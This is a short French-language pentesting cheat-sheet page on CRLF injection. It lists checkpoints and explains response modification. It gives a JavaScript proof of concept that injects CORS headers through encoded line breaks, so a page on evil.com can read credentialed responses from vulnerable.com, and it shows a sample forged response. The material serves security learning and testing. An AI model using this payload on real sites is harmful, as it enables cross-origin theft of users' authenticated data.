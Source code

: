 ```yaml
---
title: CRLF Injection
permalink: /CRLF/
---
```


# CRLF Injection

## Points de contrôles

Les points suivants sont à vérifier:

- Valeurs réutilisées dans les headers (paramètre GET, POST, élément du Referer, etc.)
- Peut-on faire des retours à la ligne ? Essayer différents encodages.
- Peut-on ajouter un cookie arbitraire (Cookie: lang=$p avec $p = "xx; session=truc)

## Exploitation

### HTTP Response Splitting

Les attaques du type "HTTP Response Splitting" ne semblent pas marcher dans la vraie vie. Firefox & Chrome checkent les réponses et renvoie une erreur quand certains headers apparaissent en double (voir https://stackoverflow.com/questions/13578428/duplicate-headers-received-from-server et https://www.mozilla.org/en-US/security/advisories/mfsa2011-39/).

### Modification de la réponse

Il est possible de modifier la réponse en terminant le header et en injectant du code arbitraire à la suite.

### Same Origin Policy Bypass

On peut utiliser la vulnrébilité pour contourner la SOP grâce à [CORS](/CORS/). Le payload JS suivant peut servir de PoC (JS sur le domaine http://evil.com ciblant http://vulnerable.com)

``` javascript
<html>
    CORS Bypass
    <script>
        var xhr = new XMLHttpRequest();   // new HttpRequest instance 
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                alert(xhr.responseText);
            }
        }
        xhr.withCredentials = true; 
        xhr.open("GET", 'http://vulnerable.com?NAME=test.html"%0D%0AAccess-Control-Allow-Origin:+http://evil.com%0D%0AAccess-Control-Allow-Credentials:+true%0D%0Atest:"')
        xhr.send();
    </script>
</html>
```
La réponse sera de la forme

``` text
HTTP/1.1 200 OK
Date: Mon, 08 Jan 2018 16:37:15 GMT
Content-Disposition: attachment;filename="test.html"
Access-Control-Allow-Origin: http://evil.com
Access-Control-Allow-Credentials: true
test:""
Content-Type: text/html;charset=UTF-8
Content-Length: 68
Connection: close

[CONTENU]
```

Ce qui permet de bypasse la SOP.

## Payloads

Voir [PayloadAllTheThings](https://github.com/ruuand/PayloadsAllTheThings/tree/master/CRLF%20injection)
